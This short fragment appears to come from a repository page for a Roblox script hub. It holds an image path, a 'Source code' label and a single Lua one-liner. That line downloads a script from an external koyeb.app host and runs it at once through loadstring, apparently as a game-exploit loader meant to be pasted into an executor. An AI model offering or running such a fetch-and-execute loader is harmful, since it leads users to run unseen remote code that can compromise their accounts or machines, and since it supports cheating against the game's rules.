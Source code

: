 ```loadstring(game:HttpGet("https://zygomorphic-jobyna-impacthub-3d96c239.koyeb.app/main.lua"))()```
